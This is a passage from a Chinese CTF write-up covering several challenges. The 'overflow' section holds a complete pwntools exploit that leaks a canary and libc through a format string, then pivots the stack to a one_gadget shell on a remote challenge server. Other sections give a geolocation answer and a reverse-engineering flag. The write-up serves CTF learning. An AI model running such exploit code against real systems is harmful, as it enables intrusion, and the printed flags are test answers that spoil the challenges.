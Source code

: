 第二，不要因为题上标了个难度中等就不敢做，一定要点开分析分析

### overflow

真心不会，pig讲完也不会，说白了就是底子薄，学一学再回来研究吧，先把脚本搞上去

```python
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug', terminal = ['tmux', 'splitw', '-h', '-p', '80'])
p = remote('27.25.151.12', 20736)
p.recvuntil('before that?\n')
p.sendline('aaaa')
p.recvuntil('give you a gift!\n')
# 泄露libc和canary
p.send(p64(0) + b'%15$p%11$p%9$pa')
stack = int(p.recv(14), 16)
libc_base = int(p.recv(14), 16) - 0x29d90
canary = int(p.recvuntil('a')[:-1], 16)
print(hex(canary))
print(hex(libc_base))
one_gadget = libc_base + 0xebc81

fake_rbp = stack - 0x160
fake_rbp_2 = stack -  0xc8

# 伪造栈帧
p.recvuntil('again?????\n')
p.send(p64(canary) + p64(fake_rbp_2) + p64(one_gadget) + p64(canary) + p8(fake_rbp & 0xFF))

p.interactive()
```

## 游园地1

百度识图+百度地图=武汉中山公园

## ezre

下载附件放进ida f12，发现了这些东西

![image-20241115152422370](C:\Users\联想\AppData\Roaming\Typora\typora-user-images\image-20241115152422370.png)

点开它所在的地址发现这个东西

QKEMK{7JB5_i5_W3SllD_3z_W3}

看起来像是一个维吉尼亚密码，前五个的偏移正好是isctf，所以一个一个试一试就得到了

ISCTF{7HI5_i5_R3AllY_3z_R3}

## 小蓝鲨的签到02
